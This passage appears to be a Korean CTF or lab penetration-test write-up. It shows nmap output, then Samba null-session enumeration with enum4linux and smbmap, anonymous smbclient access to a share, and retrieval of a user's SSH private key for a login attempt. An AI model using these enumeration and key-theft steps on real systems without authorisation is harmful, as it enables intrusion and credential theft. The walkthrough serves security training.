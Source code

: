 ```sh
40911/tcp open  mountd      1-3 (RPC #100005)
43665/tcp open  status      1 (RPC #100024)
44525/tcp open  nlockmgr    1-4 (RPC #100021)
52915/tcp open  mountd      1-3 (RPC #100005)
                            [...]
```

### 취약점 진단
`searchsplpit`을 사용한 결과 특별한 취약점은 찾을 수 없었다. 하지만 smb 서비스를 실행하고 있으므로 `enmu4linux`를 사용하여 samba 널 세션 취약점을 찾았다.
```sh
┌──(kali㉿kali)-[~/drugstore]
└─$ enum4linux -a 172.31.177.177

                            [...]
==================================( Session Check on 172.31.177.177 )==================================
[+] Server 172.31.177.177 allows sessions using username '', password ''
                            [...]
```

그 후, `smbmap`을 사용하여 samba-share라는 접근가능한 smb쉐어를 찾았다.
```sh
┌──(kali㉿kali)-[~/drugstore]
└─$ smbmap -H 172.31.177.177

                            [...]
[+] IP: 172.31.177.177:445      Name: 172.31.177.177            Status: Authenticated
        Disk                                 Permissions     Comment
        ----                                 -----------     -------
        print$                               NO ACCESS       Printer Drivers
        samba-share                          READ ONLY
        IPC$                                 NO ACCESS       IPC Service (ip-172-31-177-177 server (Samba, Ubuntu))
```

### 호스트 초기 침투
널 세션 취약점과 접근가능한 smb쉐어를 찾았으니 `smbclient`를 사용하여 접근을 시도했고 성공했다.
```sh
┌──(kali㉿kali)-[~/drugstore]
└─$ smbclient \\\\172.31.177.177\\samba-share
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \>
```

성공적으로 접근 한 뒤 `ls`명령어를 사용한 결과 architect유저의 개인키 파일로 추측되는 architect_id_rsa파일을 확인할 수 있었다.
```sh
smb: \> ls
  .                                   D        0  Fri Oct  6 22:29:33 2023
  ..                                  D        0  Tue Aug 27 03:37:24 2024
  architect_id_rsa                    N     3414  Fri Oct  6 22:29:33 2023

                7941576 blocks of size 1024. 5595212 blocks available
```
`get`을 사용해 개인키 파일을 가져온 뒤 ssh를 통해 해당 계정으로 로그인 시도 한 결과 passphrase가 걸려있는 것을 확인할 수 있었다.
```sh
smb: \> get architect_id_rsa 
getting file \architect_id_rsa of size 3414 as architect_id_rsa (72.5 KiloBytes/sec) (average 72.5 KiloBytes/sec)

┌──(kali㉿kali)-[~/drugstore]
└─$ ssh -i architect_id_rsa architect@172.31.177.177
The authenticity of host '172.31.177.177 (172.31.177.177)' can't be established.
ED25519 key fingerprint is SHA256:GwnQqVUEtppm0JwhkceK6oZqoNrMwN+lR/CLsixT2+I.
```